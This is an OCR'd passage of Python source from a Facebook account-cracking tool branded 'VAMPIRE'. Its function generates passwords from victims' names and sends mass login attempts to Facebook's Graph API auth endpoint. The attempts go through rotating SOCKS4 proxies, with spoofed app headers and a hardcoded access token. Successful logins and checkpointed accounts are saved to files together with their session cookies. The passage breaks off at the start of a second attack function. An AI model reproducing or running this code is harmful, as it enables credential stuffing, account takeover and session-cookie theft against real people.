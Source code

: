             loop+=1
        except Exception as e:time.sleep(30)
except:pass
#---------FILE M6
def __MTDONE6__(ids,names,passlist,tl):
    global oks,cps,loop,xvx
    abir = random.choice(["\x1b[38;5;196m","\x1b[38;5;208m","\033[1;30m","\x1b[38;5;160m","\x1b[38;5;46m","\033[1;33m","\033[38;5;6m","\033[1;35m","\033[1;36m","\033[1;37m"])
    sys.stdout.write(f"\r {red}[{abir}VAMPIRE{red}]-{red}[{cyan}{loop}{red}]-{red}[{green}OK{white}-{green}{len(oks)}{red}]-{red}[{green}{'{:.1%}'.format(loop/int(tl))}{red}]"),
    sys.stdout.flush()
    try:
        first = names.split(' ')[0]
        try:
            last = names.split(' ')[1]
        except:
            last = 'Khan'
        ps = first.lower()
        ps2 = last.lower()
        for fikr in passlist:
            pas = fikr.replace('First',first).replace('Last',last).replace('first',ps).replace('last',ps2)
            accees_token = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
            prox=random.choice(xvx)
            bro={"http":"socks4://"+prox}
            head = {'User-Agent': f'{F6}','Accept-Encoding':'gzip, deflate','Connection':'close','Content-Type':'application/x-www-form-urlencoded','Host':'graph.facebook.com','X-FB-Net-HNI':str(random.randint(2e4, 4e4)),'X-FB-SIM-HNI':str(random.randint(2e4, 4e4)),'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32','X-FB-Connection-Type':'WIFI','X-Tigon-Is-Retry':'False','x-fb-session-id':'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=62f8ce9f74b12f84c123cc23437a4a32','x-fb-device-group':'5120','X-FB-Friendly-Name':'ViewerReactionsMutation','X-FB-Request-Analytics-Tags':'graphservice','X-FB-HTTP-Engine':'Liger','X-FB-Client-IP':'True','X-FB-Server-Cluster':'True','x-fb-connection-token':'62f8ce9f74b12f84c123cc23437a4a32'}
            data = {'adid':str(uuid.uuid4()),'format':'json','device_id':str(uuid.uuid4()),'email':sid,'password':ps,'generate_analytics_claims':'1','community_id':'','cpl':'true','try_num':'1','family_device_id':str(uuid.uuid4()),'credentials_type':'password','source':'login','error_detail_type':'button_with_disabled','enroll_misauth':'false','generate_session_cookies':'1','generate_machine_id':'1','currently_logged_in_userid':'0','locale':'es_ES','client_country_code':'ES','fb_api_req_friendly_name':'authenticate','api_key':'62f8ce9f74b12f84c123cc23437a4a32','access_token':accees_token}
            po = requests.post('https://graph.facebook.com/auth/login',data=data,headers=head,proxies=bro).text
            q = json.loads(po)
            if 'session_key' in q:
                 cookie = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"])
                 print(f"\r\r {red}[{green}VAMPIRE-OK{red}] {green}{sid} {red}| {green}{ps} ")
                 open('/sdcard/VAMPIRE/VAMPIRE-FILE-M6.txt','a').write(sid+'|'+ps+'\n')
                 open('/sdcard/VAMPIRE/VAMPIRE-FILE-M6-COOKIE.txt','a').write(sid+'|'+ps+'|'+cookie+'\n')
                 oks.append(sid)
                 break
            elif 'www.facebook.com' in q:
                 print(f"\r\r {green}[{red}VAMPIRE-CP{green}]{green} {sid} {red}| {green}{ps} ")
                 open('/sdcard/VAMPIRE/VAMPIRE-FILE-CP.txt','a').write(sid+'|'+ps+'\n')
                 cps.append(sid)
            else:continue
        loop+=1
    except requests.exceptions.ConnectionError:
        time.sleep(10)
    except Exception as e:
        pass
#---------RANDOM M1
def randm(ids,psd,tl):
    global oks,cps,loop,xvx
    abir = random.choice(["\x1b[38;5;196m","\x1b[38;5;208m","\033[1;30m","\x1b[38;5;160m","\x1b[38;5;46m","\033[1;33m","\033[38;5;6m","\033[1;35m","\033[1;36m","\033[1;37m"])
    sys.stdout.write(f"\r {red}[{abir}VAMPIRE{red}]-{red}[{cyan}{loop}{red}]-{red}[{green}OK{white}-{green}{len(oks)}{red}]-{red}[{green}{'{:.1%}'.format(loop/int(tl))}{red}]"),